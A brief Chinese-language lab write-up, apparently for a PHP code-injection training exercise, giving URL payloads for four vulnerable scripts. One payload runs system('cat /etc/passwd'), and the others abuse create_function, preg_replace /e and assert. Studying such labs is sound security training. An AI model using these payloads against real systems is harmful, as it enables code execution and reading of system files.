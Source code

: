 # Code injection

## Example 1

入门的代码执行漏洞。。没做任何过滤。。
payload:
```
http://192.168.56.102/codeexec/example1.php?name=%22;system(%27cat%20/etc/passwd%27);//
```

## Example 2

这题也不难，搜索一下`php create_function 代码注入`，我来分析下。。源码如下
```
usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```

然后系统会拼凑一个函数：
```
function __lambda_func($a, $b)
{
    return strcmp($a->$order, $b-> $order); }
```

然后会使用eval函数，看到这里就好了。。
Payload：
```
http://192.168.56.102/codeexec/example2.php?order=id,$b-%3Ename);}phpinfo();//
```

这样拼凑的函数就成了
```
function __lambda_func($a,$b)
{
    return strcmp($a->id, $b->name);}phpinfo();//);}
```

## Example 3

这题随便试下报错发现用了preg_replace，然后又是代码注入的题，自然想到了`\e`修饰符
Payload:
```
http://192.168.56.101/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=lamer
```

## Example 4

`assert`的命令执行，跟`eval`用法类似，不过黑盒了半天都有问题。白盒了后
Payload: 
```
http://192.168.56.101/codeexec/example4.php?name=%27.phpinfo();//
```
